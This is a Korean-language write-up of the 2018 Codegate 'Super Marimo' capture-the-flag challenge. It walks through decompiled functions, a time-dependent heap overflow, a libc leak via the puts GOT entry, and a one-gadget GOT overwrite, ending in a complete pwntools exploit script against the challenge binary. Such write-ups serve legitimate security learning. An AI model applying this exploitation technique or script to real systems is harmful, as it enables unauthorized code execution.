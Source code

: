 ```yaml
---
title: "2018 Codegate Super Marimo"
date: 2019-12-23
tags: [Codegate]
categories: [Codegate]
---
```


64bit heap overflow 문제다. 변수랑 함수 이름은 내가 수정해놨다.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

이 프로그램에서 hidden function이 존재했다. 

```c
signed __int64 __fastcall vuln(const char *a1)
{
  void *v1; // ST18_8

  if ( strcmp(a1, "show me the marimo") )
    return 0LL;
  v1 = malloc(24uLL);
  sub_400EED(v1, 1u, 5u);
  Marimo[Marimo_cnt++] = v1;
  return 1LL;
}
```

여기서 보면 show me the marimo라는 글자랑 같으면 Marimo를 생성해줄 수 있다.

또 다른 곳에서 만들 수 있긴한데 돈이 필요하다고 떠서 그냥 호출하는 함수는 똑같다.

```c
_BYTE *__fastcall sub_400EED(struct marimo *a1, unsigned int a2, unsigned int a3)
{
  unsigned __int64 v3; // ST00_8
  int v4; // ST04_4

  v3 = __PAIR__(a2, a3);
  *&a1->birth = time(0LL);
  *&a1[1].name = a2;
  *&a1[2].profile = malloc(16uLL);
  puts("What's your new marimo's name? (0x10)");
  printf(">> ", v3);
  fflush(stdout);
  __isoc99_scanf("%16s", *&a1[2].profile);
  *&a1[5].name = malloc(32 * v4);
  printf("write %s's profile. (0x%X)\n", *&a1[2].profile, (32 * v4));
  fflush(stdout);
  printf(">> ");
  fflush(stdout);
  return sub_400FF9(*&a1[5].name, 32 * v4);
}
```

이런식으로 구조체 변수에 넣어서 Marimo를 만들어준다.

보기 쉽게 구조체는 이런식으로 만들어줬다. 

![](https://user-images.githubusercontent.com/32904385/71411403-7fd27f80-268c-11ea-9293-9caee4bc6f31.png)

취약점은 여기서 터진다.

```c
unsigned __int64 __fastcall Modify(struct marimo *a1)
{
  unsigned int v1; // ST18_4
  unsigned int v3; // [rsp+1Ch] [rbp-24h]
  char v4; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts(&byte_4014F4);
  printf("birth : %d\n", *&a1->birth);
  v1 = time(0LL);
  printf("current time : %d\n", v1);
  v3 = v1 + *&a1[1].name - *&a1->birth;
  printf("size : %d\n", v3);
  printf("price : %d\n", 5 * v3);
  printf("name : %s\n", *&a1[2].profile);
  printf("profile : %s\n", *&a1[5].name);
  puts(&byte_4014F4);
  puts("[M]odify / [B]ack ?");
  printf(">> ");
  fflush(stdout);
  __isoc99_scanf("%19s", &v4);
  if ( v4 == 'M' )
  {
    puts("Give me new profile");

    printf(">> ", &v4);
    fflush(stdout);
    sub_400FF9(*&a1[5].name, 32 * v3);          // vuln
    Modify(a1);
  }
  return __readfsqword(0x28u) ^ v5;
}
```

32 * 흐른 시간만큼의 크기로 수정해줄 수 있다. 그래서 여기서 흐른시간을 늘려서 Overflow 일으켜서 함수 포인터를 바꿀 수 있다. 

```
payload : buf[56] + puts_got(profile) + puts_got(name)
```

Marimo를 두개 만들어서 첫 번째 Marimo를 오버플로우나게 해서 puts_got를 Marimo의 name값을 가르키는 포인터에 넣고 view해주면 leak해줄 수 있어서 립씨 베이스를 구할 수 있다.

libc leak해줬으면 oneshot을 이용해서 modify해서 Marimo의 profile을 가르키는 포인터에 oneshot 주소를 구해서 got overwrite 해주면 된다.  `sub_400FF9` 함수에 의해서 개행전까지 입력받을 수 있다.

![](https://user-images.githubusercontent.com/32904385/71410643-6da31200-2689-11ea-856d-14e8dbacef8e.png)

'A'를 40개 입력했을 때 이런식으로 되는데 `0x15e015000` 을 덮지 않고 `0xc5c4c0` 을 바꿔줘야한다. 덮으면 나중에 수정부분에서 입력을 안 받고 프로그램이 꺼진다.

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
context.arch = 'amd64'
p = process('./marimo')
e = ELF('./marimo')
libc = e.libc

def vuln(name,profile):
	p.sendlineafter('>> ','show me the marimo')
	p.sendlineafter('>> ',name)
	p.sendlineafter('>> ',profile)

def view(index):
	p.sendlineafter('>> ','V')
	p.sendlineafter('>> ',str(index))

def modify(profile):
	p.sendlineafter('>> ','M')
	p.sendlineafter('>> ',profile)
	p.sendlineafter('>> ','B')

vuln('AAAA','BBBB')
vuln('CCCC','DDDD')

sleep(3)
payload = 'A'*48
payload += p64(0x15e015000)
payload += p64(e.got['puts']) # name
payload += p64(e.got['puts']) # profile

view(0)
modify(payload)
#raw_input()
view(1)
p.recvuntil('name : ')
libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('>> ','M')
p.sendlineafter('>> ',p64(libc_base + 0x45216)) # puts overwrite
p.interactive()
```


